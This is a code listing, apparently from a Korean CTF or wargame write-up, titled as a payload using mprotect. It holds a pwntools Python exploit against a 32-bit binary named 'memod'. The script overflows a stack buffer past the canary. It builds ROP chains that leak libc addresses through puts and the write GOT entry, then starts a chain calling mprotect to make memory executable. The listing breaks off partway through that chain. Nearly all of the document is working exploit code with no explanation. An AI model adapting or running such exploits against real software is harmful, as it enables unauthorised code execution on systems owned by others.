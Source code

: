 ### mprotect를 이용한 payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
    'mprotect' : 0xf7e9f020,
}

gs = f'''
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
    s.send(b"1" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"A" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"BBBB"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pr gadget)
    payload += p32(elf.got['write'])    # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    libc = u32(r[0:4]) - lib.symbols["write"]
    mprotect = libc + lib.symbols['mprotect']
    read = libc + lib.symbols['read']
    log.info(f"libc : {hex(libc)}")
    log.info(f"mprotect : {hex(mprotect)}")
    log.info(f"read : {hex(read)}")

    # add permission using mprotect
    s.send(b"2" * 33)                   # overwrite fd
    s.recv(1024)

    payload = b"C" * 0x124              # dummy
    payload += b"\x00\x00\x00\x00"      # canary
    payload += b"DDDD"                  # sfp
    payload += p32(mprotect)            # ret #1
    payload += p32(0x08048836)          # ret #2 (pppr gadget)
```